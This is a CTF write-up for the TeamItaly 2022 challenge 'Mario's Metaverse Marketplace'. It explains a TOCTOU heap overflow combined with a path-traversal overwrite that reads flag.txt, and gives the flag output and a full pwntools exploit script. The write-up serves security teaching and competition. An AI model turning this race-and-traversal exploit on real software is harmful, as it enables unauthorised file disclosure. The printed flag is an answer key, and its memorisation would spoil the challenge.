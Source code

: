 # TeamItaly CTF 2022

## Mario's Metaverse Marketplace (1 solves)

What's a better CTF challenge than an half-finished, buggy software?

Of course an half-finished, buggy software that lets you create NFTs!
~~(No guarantees)~~

Btw I forgot the private key to `flag.txt`, can you retrieve that for me?

### Solution

The vulnerability was a simple TOCTOU on the size of the file that has to be read from disk.

![TOCTOU](writeup_res/toctou.png)

First, a buffer the size of the file minus 0x24 (the size of the token and the item price, contained in the file alongside the item description).

Then a blocking function is called, which asks for the token and continues only if it is correct.

Finally, the description is fully read in the previously allocated buffer.

Note that the file also gets closed and reopened with read-write permissions if the token is indeed correct, so if the file gets modified and becomes larger while the program is waiting for input, the buffer can be overrun with the file contents.

---

To actually trigger the vulnerability the attacker has to use open two connections concurrently:

- Instance 1: create item, get id and token
- Instance 2: insert item id, so the buffer gets allocated
- Instance 1: edit item by making the description larger, and save it.
- Instance 2: insert item token, so the description gets read overrunning the allocated buffer

---

This vuln can be exploited easily to get the flag, as just after allocating the buffer for the item description, the program allocates memory for a global structure, in which the first 32 bytes represent the item id.

![Heap layout](writeup_res/heap.png)

Because of this, an attacker can overwrite the id field of the struct with any valid file name, as long as it's exactly 32 bytes long.

The file can be then be read using the "Undo changes" option, which just reloads the item from disk, without asking for the token.

```
Make your selection:
|     Item ID: ../../../../../../../../flag.txt
|     Item secret token: flag{th15_fl4g_n33d5_t0_b3_l0ng3
|     Item price: 1752457074
|     Item description:
         4n_m05t_t0_533_1f_y0u_c4n_r3p4ck_1nt5}
```

The flag is split between the three fields shown (token, price, description). As the price is printed out as an integer, it has to be repacked in binary form, and this can be easily done using `p64(1752457074)` from pwntools.

### Exploit

```python

#!/usr/bin/env python3

from pwn import gdb, remote, process, p32, context, ELF, args, fit, log
import time
import os

exe = context.binary = ELF('m3')

HOST = os.environ.get("HOST", "mmm.challs.teamitaly.eu")
PORT = int(os.environ.get("PORT", 15009))

io = remote(HOST, PORT)
io2 = remote(HOST, PORT)

io.sendlineafter(b":", b"1")
io.sendlineafter(b":", b"1")
io.sendlineafter(b":", b"a"*0x20)

io.recvuntil(b"Item ID: ")
id = io.recvline()[:-2]
io.recvuntil(b"Item secret token: ")
token = io.recvline()[:-2]
log.success(f"ID {id}")
log.success(f"Token {token}")

io.sendlineafter(b":", b"2")
io.sendlineafter(b":", id)

io.sendlineafter(b":", token)
io.sendlineafter(b":", b"2")

io2.sendlineafter(b":", b"2")
io2.sendlineafter(b":", id)

io.sendlineafter(b"Insert new description (up to 1023 characters): ", fit({
    48: b"../../../../../../../../flag.txt"
}))
io.sendlineafter(b":", b"3")
io.sendlineafter(b":", b"0")
io.sendlineafter(b":", b"0")
io.recvuntil(b"Exit")

io.close()
time.sleep(1)

io2.sendlineafter(b":", token)
io2.sendlineafter(b":", b"4")

io2.recvuntil(b"flag.txt")
io2.recvuntil(b"Make your selection: ")
io2.recvuntil(b"Item secret token: ")
flag = io2.recvline().strip()
io2.recvuntil(b"Item price: ")
flag += p32(int(io2.recvline().strip()))
io2.recvuntil(b"Item description: ")
io2.recvline()
flag += io2.recvline().strip()

print(flag.decode('ascii'))

io2.close()

```
